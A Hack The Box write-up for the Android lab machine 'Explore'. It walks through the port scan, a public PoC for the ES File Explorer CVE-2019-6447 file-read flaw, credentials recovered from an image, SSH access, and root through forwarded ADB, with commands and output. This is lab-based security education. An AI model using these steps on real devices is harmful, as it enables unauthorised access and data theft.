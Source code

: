 ```yaml
---
layout: post
title: HTB Explore Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/explore.png.png
tags: [HTB]
---
```


# Notes
![Explore](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/explore.png.png)
IP:10.10.10.247

## Port Scan
```
PORT      STATE    SERVICE                                                                                            
2222/tcp  open     EtherNetIP-1                                                                                       
5555/tcp  filtered freeciv                                                                                            
39773/tcp open     unknown                                                                                            
42135/tcp open     unknown                                                                                            
59777/tcp open     unknown 

```
## Port 2222
SSH-2.0-SSH Server - Banana Studio 

## Port 5555
This port is being used by Android Debug Bridge (adb) and is filtered

## Port 59777
A quick google search showed that port 59777 is used by ES File Explorer. ES File Explorer is a file manager/explorer for android devices. It looks like there is a CVE for ES File Explorer CVE:2019-6447, I used a poc script I found on github https://github.com/fs0c131y/ESFileExplorerOpenPortVuln. This script lets me list and download files off the device.

There was a great write up of this bug https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566 

Using the tool I was able to find a file called "creds.jpg"

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py --cmd listPics --ip 10.10.10.247 
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

```

I downloaded it

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
                               
```

It was a picture of some credentials `kristi:Kr1sT!5h@Rp3xPl0r3!`

## User Shell

I was able to ssh into it by using the credentials found 

```
┌──(root💀kali)-[~/htb]
└─# ssh -p 2222 kristi@10.10.10.247
Password authentication
Password: 
```

Looking inside `/sdcard` I found the user flag

## Root
Back when I did my nmap scan port 5555 was running adb. Now that we have a valid ssh session we can port forward back to kali and access adb

I found the commands for abd here https://adbshell.com/

Port forward
`ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555`

Connect to abd
`adb connect 127.0.0.1:5555`

We can restart the adb service as root
`adb root`

From there adb is running with high privs so we can drop into a shell and su to root
```
──(root💀kali)-[~/htb]
└─# adb shell                                                                                                                                                                                                                            1 ⨯
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

```

